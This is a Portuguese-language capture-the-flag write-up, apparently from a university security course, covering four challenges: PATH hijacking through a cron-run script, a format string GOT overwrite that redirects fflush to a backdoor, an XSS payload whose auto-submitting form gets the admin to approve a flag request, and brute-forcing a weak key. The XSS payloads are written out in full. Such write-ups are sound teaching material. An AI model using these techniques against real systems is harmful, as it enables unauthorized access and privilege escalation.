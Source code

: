 # CTF Extras


## British Punctuality

- Primeiro lendo o código no main.c, descobrimos que a flag estava escrita no ficheiro /flags/flag.txt

![codigo main](/images/w5/extra_1.png) 

- Depois, reparámos que o script my_script.sh, exportava as variáveis de ambiente que estivessem no ficheiro /tmp/env, executava o comnado printenv e depois o programa reader.<br/>

![codigo my_script.sh](/images/w5/extra_2.png) 

- Criamos um printenv na pasta /tmp/, com cat /flags/flag.txt, e demos lhe permissões de execução.
- Então criamos o ficheiro env e escrevemos "PATH=/tmp/:$PATH"

![env and printenv](/images/w5/extra_3.png) 

- Depois executamos o script e vimos que não tinhamos permissões para ler a flag
- Reparámos que havia um script no "/etc/cron.d/", que executava o script "/home/flag_reader/my_script.sh" como flag_reader (a cada minuto), portanto tinha permissões para ler a flag.
![cron](/images/w5/extra_4.png) 

- Esperamos que o script executasse e lê-mos a flag do last_log .

![flag](/images/w5/extra_5.png) 

<br>




## Final Format
Ao correr o comando checksec podemos verificar que:
- o RELRO é parcial, o que significa que podemos alterar a GOT
- o programa tem canarios na stack
- a protecao NX está ativa, o que significa que um segmento de memória não pode ser executável e ser permitido escrever ao mesmo tempo.
- o PIE não está ativo, o que significa que os endereços das funções não se alteram em cada execução

![image-1.png](/images/ctf_fs/image-1.png)


Ao analisar o código com o ghidra vericamos que o programa era vulnerável a format string attacks na linha 17.

![image-2.png](/images/ctf_fs/image-2.png)

E que existe uma função chamada old_backdoor, que cria uma shell. Uma vez que não tem PIE, o enderço da função não irá ser alterado a cada execução pelo que será sempre este endereço 0x8049236.

![image-3.png](/images/ctf_fs/image-3.png)


Ao enviar %p, verificamos que os endereços mudam em cada execução o que significa que a aslr está ativa, portanto não conseguimos descobrir o endereço de retorno da função para a conseguir alterar para o endereço do old_backdoor.

![image-4.png](/images/ctf_fs/image-4.png)

Depois, reparamos que os da got são fixos.

![image-5.png](/images/ctf_fs/image-5.png)

No código reparamos que o fflush era chamado depois do scanf, por isso se alterarmos o endereço dele na tabele para executar a backdoor em vez do fflush, ele irá ser chamado antes do programa terminar.


Ao correr o seguinte script reparamos que não funcionava, uma vez que o servidor dava timeout (no computador local funcionava direito)

![image-6.png](/images/ctf_fs/image-6.png)

Por isso tentamos escrever primeiro os 2 primeiros bytes e depois os outros 2 bytes. Uma vez que o numero da direita (0x9236)  era maior que o da esquerda (0x0804), tivemos q dar overflow ,para conseguir escrever o endereco pretendido (0x08049236).
Primeiro escrevemos 4 bytes(AAAA) que vao ser lidos pelo primeiro %x, depois escrevemos o endereco que queremos alterar (do flush na got, 0x804c010), onde vamos escrever os primeiros bytes com o primeiro %n.
Depois escrevemos outra vez 4 bytes(AAAA) que vão ser lidos (e descartados) pelo segundo %x, e escrevemos o endereco do content + 2, para escrever apenas nos 2 bytes a seguir (e não alterarmos os que já escrevemos antes) 

![image-7.png](/images/ctf_fs/image-7.png)

E assim já funcionou 

![image-8.png](/images/ctf_fs/image-8.png)

## Apply For Flag II

Escrevemos um script na caixa de texto para verificar se era vulnerável a xss.

![](https://i.imgur.com/KW9QF4j.png)
E verificamos que era
![](https://i.imgur.com/exYmHdG.png)

Depois encontramos o botão que servia para o admin nos enviar a flag.

![](https://i.imgur.com/2qsy1WJ.png)

Uma vez que a porta do site de origem é diferente da do site onde se envia o post, se fizermos apenas um script que envia o pedido (usando fetch) o coors bloqueia como se pode ver a seguir.

```htmlembedded=
<script> fetch("http://ctf-fsi.fe.up.pt:5005//request/4e860dc39ba2a2b06f97508f88194861dad75ebc/approve) ", {method: "POST"})</script>
```
![](https://i.imgur.com/bf3xyOm.png)

Uma forma de contornar isso é criar um form, e submete-lo.

```htmlembedded=
<form id="flag_form" method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/28682e517d19ba1c197a730cebbb738e484b1fdc/approve" role="form"> <div class="submit"> <input type="submit" id="giveflag" value="Give the flag" > </div> </form> <script> console.log(document.getElementById('flag')); document.getElementById('giveflag').click() </script>
```

![](https://i.imgur.com/ySSonGg.png)




## NumberStation3
Observando o código fornecido, apesar da chave gerada ter 256 bits, de facto só existem 2^16 chaves possíveis, já que é feito um bitwise & com 1 para cada byte, ou seja, cada byte dos 16 que constituem a chave ou são iguais a 0 ou iguais a 1. 
![img](images/extras/numberstation3_b.png)

Como tal, é possível testar todas as chaves possíveis (65536) em tempo útil e, para cada uma destas, tentar decifrar o criptograma. Uma destas será a chave verdadeira e o resultado será a mensagem original, ou seja, a flag
![img](images/extras/numberstation3_a.png)









